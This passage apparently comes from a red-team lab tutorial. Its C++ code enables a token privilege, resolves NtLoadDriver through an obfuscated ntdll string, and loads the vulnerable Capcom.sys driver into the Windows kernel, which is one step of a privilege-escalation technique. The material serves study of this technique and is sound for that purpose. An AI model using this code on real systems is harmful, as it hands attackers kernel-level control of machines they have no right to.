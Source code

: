 ```cpp
	if (bEnablePrivilege) {
		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	}
	
	// Enable the privilege or disable all privileges.
	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&tp,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
	{
		printf("AdjustTokenPrivileges error: %x", GetLastError());
		return FALSE;
	}

	//system("cmd");
	// below code for loading drivers is taken from https://github.com/killswitch-GUI/HotLoad-Driver/blob/master/NtLoadDriver/RDI/dll/NtLoadDriver.h
	std::cout << "[+] Set Registry Keys" << std::endl;
	NTSTATUS st1;
	UNICODE_STRING pPath;
	UNICODE_STRING pPathReg;
	PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
	PCWSTR pPathSourceReg = L"\\registry\\machine\\System\\CurrentControlSet\\Services\\SomeService";
	const char NTDLL[] = { 0x6e, 0x74, 0x64, 0x6c, 0x6c, 0x2e, 0x64, 0x6c, 0x6c, 0x00 };
	HMODULE hObsolete = GetModuleHandleA(NTDLL);
	*(FARPROC *)&RtlInitUnicodeString = GetProcAddress(hObsolete, "RtlInitUnicodeString");
	*(FARPROC *)&NtLoadDriver = GetProcAddress(hObsolete, "NtLoadDriver");
	*(FARPROC *)&NtUnloadDriver = GetProcAddress(hObsolete, "NtUnloadDriver");

	RtlInitUnicodeString(&pPath, pPathSource);
	RtlInitUnicodeString(&pPathReg, pPathSourceReg);
	st1 = NtLoadDriver(&pPathReg);
	std::cout << "[+] value of st1: " << st1 << "\n";
	if (st1 == ERROR_SUCCESS) {
		std::cout << "[+] Driver Loaded as Kernel..\n";
		std::cout << "[+] Press [ENTER] to unload driver\n";
	}

	getchar();
	st1 = NtUnloadDriver(&pPathReg);
	if (st1 == ERROR_SUCCESS) {
		std::cout << "[+] Driver unloaded from Kernel..\n";
		std::cout << "[+] Press [ENTER] to exit\n";
		getchar();
	}

    return 0;
}
```
{% endtab %}
{% endtabs %}
